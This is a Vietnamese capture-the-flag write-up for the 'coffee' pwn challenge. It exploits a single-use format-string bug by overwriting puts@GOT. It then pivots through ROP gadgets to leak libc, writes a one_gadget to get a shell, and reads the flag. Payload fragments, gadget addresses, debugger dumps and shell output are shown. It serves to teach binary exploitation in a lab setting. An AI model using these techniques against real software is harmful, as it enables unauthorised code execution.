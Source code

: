 # Phân tích file.

```python
coffee: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f06390409bc7bfd78cb08726dd89b4cd04d38f1a, for GNU/Linux 3.2.0, not stripped
```

```python
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- Có thể ghi đè got.

# Reverse file.

- Bài này tác giả cho source sẵn.

```python
#include <stdio.h>

int x = 0xc0ffee;
int main(void) {
    char buf[160];
    scanf("%159s", buf);
    if (x == 0xc0ffee) {
        printf(buf);
        x = 0;
    }
    puts("bye");
}
```

- Ta dễ dàng thấy được có bug fmt ở printf(buf) nhưng ta chỉ sử dụng được 1 lần vì dùng xong nó set x=0.

# Exploit

- Mình sẽ overwrite got_puts về chuỗi ROP của mình để leak libc và đưa one_gadget vào got_puts.
- Sau khi overwrite got_puts mình thấy trên stack như sau:
    
    ```python
    00:0000│ rsp  0x7fffffffdef8 —▸ 0x401206 (main+112) ◂— mov    eax, 0
    01:0008│      0x7fffffffdf00 ◂— 0x3825783834373425 ('%4748x%8')
    02:0010│      0x7fffffffdf08 ◂— 0x62616161616e6824 ('$hnaaaab')
    03:0018│      0x7fffffffdf10 —▸ 0x404018 (puts@got.plt) —▸ 0x40128c (__libc_csu_init+92) ◂— pop    r12
    04:0020│      0x7fffffffdf18 —▸ 0x401293 (__libc_csu_init+99) ◂— pop    rdi
    ```
    
    - Để ret về được pop rdi thì ta phải pop 4 giá trị rác ở trên ra mình sẽ dùng gadget bên dưới. Mình sẽ ghi got_puts thành 0x40128c để pop 4 giá trị rác và ret về pop rdi.
        
        ```python
        0x000000000040128c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
        ```
        
    - Lúc này sẽ ret về pop rdi sau đó leak libc
        
        ```python
        [*] Printf: 0x7ffff7e2ae10
        [*] Base: 0x7ffff7dc6000
        [*] One: 0x7ffff7eacc81
        ```
        
    - Tiếp theo mình sẽ dùng scanf() để overwrite got_puts thành one_gadget, rsi sẽ chứa tham số buf, mình chỉ cần dùng gadget dưới để cho rsi thành got_puts rồi sau đó ret về main+40.
        
        ```python
        0x0000000000401291 : pop rsi ; pop r15 ; ret
        ```
        
        ```python
        RSI  0x404018 (puts@got.plt) —▸ 0x7ffff7e4d5a0 (puts) ◂— endbr64
        ► 0x4011ca <main+52>                call   __isoc99_scanf@plt <__isoc99_scanf@plt>
                format: 0x402004 ◂— 0x7962007339353125 /* '%159s' */
                vararg: 0x404018 (puts@got.plt) —▸ 0x7ffff7e4d5a0 (puts) ◂— endbr64
        ```
        
    - Nhập input là one_gadget là xong.
        
        ```python
        pwndbg> got
        [0x404018] puts@GLIBC_2.2.5 -> 0x7ffff7eacc81 (execvpe+641) ◂— mov    rsi, r15
        ```
        
    
    ```python
    [*] Printf: 0x7fe701506e10
    [*] Base: 0x7fe7014a2000
    [*] One: 0x7fe701588c81
    [*] Switching to interactive mode
    
    $ ls
    coffee
    flag-dcf095f41e7bf00fa7e7cf7ef2ce9083
    start.sh
    $ cat flag-dcf095f41e7bf00fa7e7cf7ef2ce9083
    TSGCTF{Uhouho_gori_gori_pwn}
    $
    ```
